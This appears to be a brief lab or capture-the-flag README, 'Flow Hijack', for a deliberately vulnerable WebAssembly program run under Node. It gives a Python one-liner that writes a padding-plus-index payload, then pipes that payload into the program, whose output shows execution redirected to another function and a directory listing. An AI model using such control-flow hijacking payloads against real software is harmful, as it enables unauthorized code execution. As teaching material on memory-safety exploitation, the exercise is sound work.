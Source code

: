 # Flow Hijack
1. **Create the payload**
```
python3 -c 'open("payload.bin", "wb").write(4 * b"A" + b"\x02")'
```

2. **Run the program with the payload**
```
cat payload.bin | node main.js                                  
I have a function so coooool right here: 0x2
README.md  main.c  main.js  main.wasm  main.wat  payload.bin
```